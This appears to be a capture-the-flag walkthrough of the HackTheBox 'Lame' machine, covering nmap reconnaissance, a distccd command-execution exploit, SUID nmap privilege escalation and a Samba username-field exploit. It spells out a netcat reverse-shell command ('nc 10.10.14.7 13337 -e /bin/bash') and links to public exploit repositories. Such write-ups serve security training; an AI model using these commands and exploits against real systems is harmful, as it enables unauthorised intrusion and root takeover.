Lame is one of the most famous and oldest easy boxes available on HackTheBox. This machine was created by ch4p and is without a doubt one of the best boxes on HackTheBox for any beginner to start hacking away and improve their skills.
Overview of the Target
- Operating System: Linux
- IP address: 10.10.10.3
- Difficulty: Easy
Scanning and Reconnaissance
The first step taken in a typical hacking process is scanning and reconnaissance. In order to infiltrate and exploit the target we need to find out every piece of information we can get our hands upon and build up from there. Some basic information to hunt for may include, open ports, hostnames and IP addresses, operating systems etc.
As our first step we are going to be finding out what ports are open in our target. A port scan is the equivalent of rattling a door knob to check if it is locked, if it isn't (port is open) we can use it to gain further information on what service is running and hopefully leverage that to gain access. For our port scan we are going to be using the famous tool Nmap. I always split my scan into two, the first scan is used to check all the ports (all 65535 of them) for anything open and the second scan is used to provide a more in-depth scan of the open ports from the first. The command used to run the first scan is shown below.
sudo nmap -p- -oN nmap/Lame-openports 10.10.10.3
The flags can be explained as follows,
- -p-: scan all ports (from 1 to 65535)
- -oN nmap/Lame-openports: write the results of the scans to the file 'Lame-openports' located in the nmap directory
Running this command gives us the below output,

From the results of the initial scan, we can observe that the ports 21,22,139,445, and 3632 are open. Ports 21 and 22 are used by the FTP and SSH services respectively, while ports 139 and 445 are used by the SMB service. I had no idea what port 3632 was nor about the 'distccd' service it ran, before I Googled what it was I decided to run the second nmap scan to dig deeper into these ports using the below command.
sudo nmap -p 21,22,139,445,3632 -sC -sV -oN nmap/Lame-fullnmap 10.10.10.3 - -p 21,22,139,445,3632: here we are instructing Nmap to only scan the given six ports
- -sC: Performs a script scan using the default set of scripts.
- -sV: Enables version detection.
- -oN nmap/Lame-fullnmap: write the results of the scans to the file 'Lame-fullnmap' located in the nmap directory
From the above output we can gain a lot of information about the ports we found open.
- Port 21 (FTP): The FTP server is vsFTPd 2.3.4 and anonymous login is allowed.
- Port 22 (SSH): OpenSSH 4.7p1 Debian 8ubuntu1 is installed. This information can be used to enumerate the version of the operating system.
- Ports 139 and 445 (SMB): we didn't get much information here, only that the package is Samba and the version is something between 3.x and 4.x. These 2 ports will be enumerated more, since SMB has a wider attack surface.
- Port 3632: The installed version is distccd v1. This needs more enumeration too since I had no idea what distccd was.
From the information we have gained with our Nmap scans, we can now start enumerating the versions of the installed packages for further information and even check if any public exploits are available.
- vsFTPd 2.3.4 had a backdoor command execution vulnerability that allowed an attacker to gain a shell by sending a :) (smiley face) in the username field. This exploit didn't work sadly as this backdoor was removed back in 2011, and Lame was created in 2017. To read more on this exploit, go here
- OpenSSH 4.7p1 Debian 8ubuntu1 didn't have any promising exploits. Looked up the package at Launchpad and found out that it was uploaded to the Ubuntu Hardy Heron (8.04.4) operating system. link
- distccd was a C/C++ compiler server that utilized distributed computing to reduce compilation time of projects. This is nice and all, but the interesting part was when I was searching for 'distccd v1' on Google, the search suggestions were all about exploiting it.
This was good news (for us) and I had high hopes for this exploit and decided to try this out first.
Exploiting distccd v1
After Googling around we find that distccd v1 is vulnerable to CVE-2004-2687 which states that when distccd "is not configured to restrict access to the server port, allows remote attackers to execute arbitrary commands via compilation jobs, which are executed by the server without authorization checks. This would allow us to execute commands on the server, which we can use to gain a reverse shell. A Python exploit code was available on GitHub and from the first few lines it was apparent that this code was written to exploit this same target (a Metasploit module was available for exploiting this CVE, but we will not be using Metasploit much here). The usage of the script was available on the first few lines of the code as well, the example shows the attacker starting up a netcat listener and commanding the target host to connect back to it using netcat.
git clone https://gist.github.com/4dbf6229a93e75c3bdf6b467e67a9855.git
After cloning the exploit repository using the above command, I ran the exploit against the flag -h to check out the options.
As the example showed before a netcat listener was created on port 13337 and the exploit code was run after setting the -t flag for the target host, -p for the target port (which was 3632) and -c for the command to be executed by the target, which was nc 10.10.14.7 13337 -e /bin/bash which tells the target to connect to our netcat listener with a bash shell.
After running the exploit, we received a connection at our netcat listener, the exploit was successful and now we have a shell. After running a few commands we can see that we are logged in the host 'lame' as user 'daemon'.
The 'daemon' account is a low privileged system account used by daemons to execute under in order to limit system access. It's not a "human"/real user account but rather a service account, so we might have to enumerate further to gain user-level access.
Enumeration
My next move was to check what 'real' user accounts were available within the system. But before that, let's check if the operating system is actually Ubuntu Hardy Heron like we guessed earlier from the Nmap scan.
And it looks like we were right.
Back to user accounts, after moving to the /home directory and listing its contents, we see a few interesting (at least at first) directories.
There was nothing interesting in any directory except 'makis', where we were able to find the user.txt file containing the user flag.

The passwd file's output also shows us that the users 'makis' and 'service' are actual user accounts in the system (since their UID is greater than 1000). Maybe we need access to these accounts to gain root?

After looking around for means of privilege escalation (and failing to find any valid credentials for the 'makis' and 'service' accounts) I decided to check the system for any interesting SUID executables using the command find / -perm -u=s -type f 2>/dev/null.
From the above output we can see that Nmap is installed and a sticky bit is set on the Nmap binary. If Nmap is owned by root, then we could use the --interactive option to get a shell as root (since Nmap is executed and running under root). However, the --interactive option was only available only in versions 2.02 to 5.21, so we must first check what version of Nmap is installed. To check the version we must run Nmap with the -V option, this shows us that the installed version is 4.53 which will be vulnerable to our privilege escalation method.
Privilege Escalation with Nmap
Execute Nmap in interactive mode by keying in nmap --interactive. In the prompt you can use the h command to view the options, this will show us the ! command option which will allow us to run shell commands (since Nmap is running as root, the commands you enter here will also be ran under root). We can abuse this to obtain a shell by typing in ! sh which will initiate a shell session as root.
We are now root and have complete access within the host. The root flag will be waiting in the /root directory.
Enumerating Samba service
It's always good to check if there are multiple ways to hack the same system since this will allow us to gain a complete image of all the vulnerabilities in the host and exploitation pathways that an attacker could take. From the previous scans we saw that our target was running an SMB server with Samba verison 3.x -4.x (we couldn't get the exact version). Samba is a juicy target with lots of vulnerabilities, so it is always a good idea to poke around and see what happens.
First we will try connecting to the SMB server using the smbclient utility. The -Lflag tells the server to list the services. When running this command we encounter the error "protocol negotiation failed: NT_STATUS_CONNECTION_DISCNNECTED", this is because the target is probably running (the 3.x or 4.x) an old version of Samba that uses the default SMBv1 protocol, that is no longer supported since 2019. To force the connection we have to supply the --option='client min protocol=NT1' which allow smbclient to work against SMBv1 shares.
From the above listing we can gain quite a handful of information, one of which will lead to the pwning of this machine. First, we see that unauthenticated access is allowed into the Samba share (this is like the equivalent of sleeping at night with your doors unlocked). Second, since we have a null session we have access to the files and directories in this share. Two directories are listed, 'tmp' (with a comment 'oh noes') and an 'opt' folder. If the directory opt was the real '/opt/ directory in a Linux system we would have gained a lot of information about the system. But we were not allowed to access it. The 'tmp' directory was accessible but we didn't find anything of much use in it (most files were empty anyways).
Third and finally, we have the most critical piece of information that we will get- the Samba version. This little piece of information will allow us to look up vulnerabilities that we could potentially exploit to gain access to the system. Since the share supports SMBv1 by default and the operating system is very old we can guess that the host is running an outdated version of Samba. Outdated Samba versions have got a lot of vulnerabilities (a fair share being improper misconfiguration), so this method was looking really juicy. By Googling the version we found (Samba 3.0.20-Debian) for exploits we come across CVE-2007-2447.
Exploiting Samba service
The CVE-2007-2007 tells us about a vulnerability that can be exploited in the username field. It says that by passing shell meta characters an attacker could execute arbitrary commands against the server. To read up on this vulnerability I used this site by @amriunix. He has provided a nice little PoC, explaining the vulnerability and also has provided us a little script to gain a reverse shell using this. Clone the exploit into your workspace using the below comand.
git clone https://github.com/amriunix/CVE-2007-2447
Change directories into the cloned directory and you will the README.md file which has instruction on running this exploit. First, follow steps under 'Installation' to install the Python package 'pysmb' using pip. Then start a netcat listener and run the exploit by providing the options mentioned in the file.
We start a local netcat listener on port 1337 and execute the script to obtain a reverse shell. But then, we receive an error from Python. Looks like we will have some slight debugging of the exploit code.
According to the comments here, the problem is caused by line 8: from smb.SMBConnection import SMBConnection. This can be fixed by replacing it with the below lines.
After re-running the exploit we get a connection on our netcat listener. We have successfully gained a reverse shell from the exploit and also we are root! No need for any privilege escalation.
